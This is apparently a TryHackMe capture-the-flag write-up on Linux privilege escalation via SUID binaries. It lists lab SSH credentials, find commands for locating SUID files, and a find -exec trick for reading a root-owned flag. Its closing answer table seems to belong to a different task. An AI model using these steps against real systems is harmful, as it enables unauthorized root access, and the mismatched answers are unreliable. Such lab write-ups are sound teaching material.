

# [Day 8] SUID Shenanigans Writeup
### Tags: `#Linux Privilege Escalation #SUID #GTFOBins`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)


## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.169.45
```


2.) Lets connect to the machine through ssh on port 65534 using username:password holly:tuD@4vt0G*TU

```bash
ssh -p 65534 holly@10.10.169.45
```


3.) Lets try and find all the binaries with the SUID bit set using the following commands.

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```



4.) Using the binary "find" and the SUID bit set, we can use the -exec flag to run commands of the owner of the bin. 

```bash
find flag1.txt -exec chmod 777 flag1.txt \;
or
find flag1.txt -exec cat flag1.txt \;
```


5.) The binary /usr/bin/system-control looks like a custom file and has the SUID bit set. Lets execute the bin and see if we can root on the machine.


## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | how many TCP ports under 1000 are open? | 3 |
| Task #2 | What is the name of the OS of the host? | Linux |
| Task #3 | What version of SSH is running? | 7.4 |
| Task #4 | What is the name of the file that is accessible on the server you found running? | interesting.file |


